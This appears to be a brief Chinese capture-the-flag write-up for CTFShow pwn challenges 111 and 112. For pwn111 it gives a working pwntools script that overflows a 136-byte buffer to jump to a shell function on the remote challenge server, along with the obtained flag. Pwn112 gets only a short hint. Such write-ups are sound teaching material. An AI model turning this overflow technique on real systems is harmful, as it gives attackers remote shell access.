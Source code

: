 # CTFShow-Pwn(111-144)

# Bypass安全机制

## 111. pwn111

64位，只开了nx



溢出136位，直接写了

有个`do_global` 函数

```
from pwn import *
context(arch="amd64",os="linux",log_level="debug")

# io = process("./pwn")

ip = "pwn.challenge.ctf.show"
port = 28229
io = remote(ip,port)

shell_addr = 0x400698

payload = flat([cyclic(136),shell_addr])

io.recvuntil(b'Input your message:')

io.sendline(payload)

io.interactive()
```



直接就有了

```
ctfshow{7fdfd7b6-ec32-4f83-b085-a79a1bfe6b08}
```





## 112. pwn112

32位全开

`partial relro`



直接进到`register_tm()`函数就可以了。
